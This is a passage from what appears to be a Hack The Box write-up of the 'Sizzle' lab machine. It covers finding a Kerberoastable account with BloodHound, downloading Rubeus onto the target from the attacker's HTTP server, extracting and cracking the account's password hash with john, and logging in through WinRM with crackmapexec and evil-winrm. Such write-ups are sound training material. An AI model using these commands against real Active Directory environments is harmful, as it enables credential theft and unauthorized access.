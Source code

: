 ```html
# http://127.0.0.1:8080/ui/explore
# All Domain Admins
# Shortest paths to Domain Admins                     :(
# Shortest paths from Owned objects                   :(
# All Kerberoastable users --> MRLKY@HTB.LOCAL        :) I can impersonate the MRLKY account ?
```

<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_82.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_83.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_84.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_85.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_86.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_87.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I have the information that **mrlky's account** is **Kerberoastable**, I'm going to use the `rubeus.exe` tool from **[r3motecontrol](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries){:target="_blank"}**, so I download the binary from the **Github** repository and transfer it to the target machine. Performing the attack with **amanda's** account credentials I get the **hash** of **mrlky's password** from **memory**. The next thing I need to do is crack the password with a brute force attack with `john` to get the same in clear text. I validate with `crackmapexec` that the credentials are valid and as expected, I will have to request again a certificate to connect using the **WinRM** protocol (remembering that I must generate a **CSR** and then make the request via web).

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/Rubeus.exe .
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
iwr -uri http://10.10.14.2/Rubeus.exe -OutFile .\Rubeus.exe
.\Rubeus.exe kerberoast /creduser:HTB.LOCAL\amanda /credpassword:A...2
```

> **Attacker Machine**:

```bash
nvim mrlky_hash
cat !$

john -w=$(locate rockyou.txt)                                 [Tab]
john -w=/usr/share/wordlists/rockyou.txt mrlky_hash
crackmapexec smb 10.10.10.103 -u 'mrlky' -p 'F...'
crackmapexec winrm 10.10.10.103 -u 'mrlky' -p 'F...7'

evil-winrm -S -c certnew.cer -k amanda.key -i 10.10.10.103 -u 'amanda' -p 'A...2'
```
